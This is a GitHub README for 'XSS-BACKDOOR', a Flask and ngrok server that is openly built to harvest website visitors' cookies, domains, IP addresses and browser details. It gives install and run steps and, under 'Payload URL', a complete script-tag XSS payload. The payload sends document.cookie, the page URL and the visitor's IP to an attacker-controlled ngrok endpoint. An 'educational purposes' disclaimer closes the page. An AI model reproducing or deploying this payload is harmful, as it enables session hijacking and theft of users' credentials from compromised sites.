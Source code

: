 # XSS-BACKDOOR

## Overview
XSS-BACKDOOR is a Flask-based web server that uses `ngrok` to expose a local server to the internet. It collects visitor information, including their user agent details, cookies, and Domain adress, and logs them in the console.

## Features
- Uses `Flask` to handle web requests.
- Uses `ngrok` to make the server accessible online.
- Parses user-agent data to identify device type, operating system, and browser.
- Captures and logs domain name and cookies.
- Injects a JavaScript payload to capture cookies from visitors.
- Displays information in a formatted and colorized console output.

## Requirements
Ensure you have the following dependencies installed:

```bash
pip install flask pyngrok colorama user-agents
```

## Setup and Usage
1. Clone this repository:
   ```bash
   git clone https://github.com/SenselessCore/XSS-Backdoor.git
   cd trap-backdoor
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. Run the script:
   ```bash
   python main.py
   ```
4. The script will generate an `ngrok` URL, which can be used to collect visitor information.
5. Payload URL:
   ```html
   <script>fetch("https://api.ipify.org?format=json").then(r=>r.json()).then(d=>d.ip).catch(()=>"_").then(ip=>{new Image().src="NGROK_URL/?"+document.cookie+"&host="+location.hostname+"&url="+encodeURIComponent(location.href)+"&ip="+ip})</script>

   ```
   Replace `NGROK_URL` with the actual `ngrok` link printed in the console.

## Disclaimer
This project is for educational purposes only. Unauthorized use of this software to collect sensitive information without consent is illegal and unethical. The author is not responsible for any misuse of this tool.

## License
GNU GPL v3 License. See [LICENSE](LICENSE) for more details.

